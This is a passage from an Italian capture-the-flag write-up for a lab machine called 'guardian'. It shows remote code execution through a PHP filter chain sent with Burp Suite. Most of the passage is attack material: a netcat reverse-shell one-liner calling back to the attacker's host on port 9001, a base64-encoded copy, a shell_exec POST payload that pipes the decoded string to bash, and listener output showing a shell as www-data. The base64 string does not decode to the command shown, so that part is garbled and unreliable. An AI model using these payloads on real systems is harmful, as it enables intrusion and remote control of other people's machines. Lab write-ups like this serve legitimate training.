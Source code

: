 E si utilizza Burpsuite per inoltrare la richiesta con la PHP filter chain passando come payload il codice per eseguire una reverse shell verso la macchina Kali.

![Burp Post](./img/burp-post.png)

Payload per la reverse shell verso la porta 9001 in ascolto sulla macchina Kali.

```text
# Reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.x 9001 >/tmp/f

# Base64 Encoding
cm0gL3RtcC9ms21rdmlmbyAvdZ1wL2f7d2F0IC90bXAvZnwvYsluLaJhc1ggLWkgMj4mfXxuYyAxMC4xMC4xNi4sNSArMDAxId6FsG1xG2Y

# Key=Value POST request
a=shell_exec("echo cm0gL3RtcC9ms21rdmlmbyAvdZ1wL2f7d2F0IC90bXAvZnwvYsluLaJhc1ggLWkgMj4mfXxuYyAxMC4xMC4xNi4sNSArMDAxId6FsG1xG2Y|base64 -d|bash");
```

Si invia il payload e si ottiene una shell come **www-data**.

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.x] from (UNKNOWN) [10.x.x.x] 49214
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@guardian:~/portal.guardian.htb/admin$ ls
ls
chat.php
chats.php
courses.php
createuser.php
enrollments.php
index.php
notices
```